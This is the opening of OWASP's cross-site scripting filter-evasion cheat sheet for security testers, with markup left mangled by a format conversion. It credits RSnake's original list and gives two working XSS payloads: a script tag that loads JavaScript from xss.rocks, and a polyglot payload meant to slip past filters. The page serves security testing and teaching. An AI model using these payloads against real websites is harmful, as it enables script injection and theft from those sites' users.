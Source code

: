 `__NOTOC__`

<div style="width:100%;height:160px;border:0,margin:0;overflow: hidden;">

![Cheatsheets-header.jpg](Cheatsheets-header.jpg
"Cheatsheets-header.jpg")

</div>

  
Last revision (mm/dd/yy): **//**

# Introduction

`__TOC__``This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `<http://ha.ckers.org/xss.html>`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the `[`XSS`` 
 ``(Cross``   ``Site``   ``Scripting)``   ``Prevention``   ``Cheat`` 
 ``Sheet`](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")`, was inspired by RSnake's XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the `[` 
 ``OWASP``   ``Cheat``   ``Sheet`` 
 ``Series`](Cheat_Sheets "wikilink")` was born.`

# Tests

This cheat sheet lists a series of XSS attacks that can be used to
bypass certain XSS defensive filters. Please note that input filtering
is an incomplete defense for XSS which these tests can be used to
illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught
but I suggest trying it first (the quotes are not required in any modern
browser so they are omitted here):

`<SCRIPT SRC=`[`http://xss.rocks/xss.js></SCRIPT>`](http://xss.rocks/xss.js%3E%3C/SCRIPT%3E)`;`

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in
multiple contexts including html, script string, js and url. Thank you
to [Gareth Heyes](https://twitter.com/garethheyes) for this
[contribution](https://twitter.com/garethheyes/status/997466212190781445).

` `[`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/`](javascript:/*--%3E%3C/title%3E%3C/style%3E%3C/textarea%3E%3C/script%3E%3C/xmp%3E%3Csvg/onload='+/%22/+/onmouseover=1/+/)`[*/[]/+alert(1)//'>`
